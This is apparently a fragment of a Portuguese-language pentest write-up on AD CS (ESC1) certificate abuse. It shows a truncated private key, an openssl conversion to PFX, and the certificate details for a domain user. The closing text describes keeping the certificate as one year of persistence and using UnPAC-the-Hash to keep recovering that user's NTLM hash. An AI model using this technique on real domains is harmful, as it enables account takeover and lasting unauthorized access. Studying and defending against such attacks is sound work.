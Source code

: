 ```powershell
    [*] cert.pem         :

    -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEAveH2b8bqL7smcl...

    -----END CERTIFICATE-----


    [*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

```

```powershell
C:\Tools\openssl\openssl.exe pkcs12 -in esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc1-DA.pfx

    Enter Export Password:
    Verifying - Enter Export Password:

    Get-PfxCertificate -FilePath .\sora-DA.pfx | select *

    EnhancedKeyUsageList : {Client Authentication (1.3.6.1.5.5.7.3.2), Server Authentication (1.3.6.1.5.5.7.3.1), Smart Card Logon (1.3.6.1.4.1.311.20.2.2), KDC Authentication (1.3.6.1.5.2.3.5)}
    DnsNameList          : {Daniel Moura}
    SendAsTrustedIssuer  : False
    Archived             : False
    Extensions           : {System.Security.Cryptography.Oid, System.Security.Cryptography.Oid, System.Security.Cryptography.Oid, System.Security.Cryptography.Oid...}
    FriendlyName         :
    IssuerName           : System.Security.Cryptography.X509Certificates.X500DistinguishedName
    NotAfter             : 1/10/2026 11:43:37 PM
    NotBefore            : 1/10/2025 11:43:37 PM
    HasPrivateKey        : True
    PrivateKey           : System.Security.Cryptography.RSACryptoServiceProvider
    PublicKey            : System.Security.Cryptography.X509Certificates.PublicKey
    RawData              : {48, 130, 5, 233...}
    SerialNumber         : 54000000150B74ED4CF8ADD060000000000015
    SubjectName          : System.Security.Cryptography.X509Certificates.X500DistinguishedName
    SignatureAlgorithm   : System.Security.Cryptography.Oid
    Thumbprint           : 1DD7B7333ECCF32A83DB5C86CEA9B80B0833C285
    Version              : 3
    Handle               : 2734492773680
    Issuer               : CN=CORP-CA, DC=CORP, DC=LOCAL
    Subject              : CN=Daniel Moura, OU=Usuarios, OU=Inferi, DC=CORP, DC=LOCAL
```

Pronto, com o certificado em mãos agora eu guardo ele comigo e por 1 ano vou ter essa persistência via usuario, e combinando com UnPAC-The-Hash você sempre irá conseguir a ntlm desse usuario atual enquanto o certificado for valido 😏

<br>
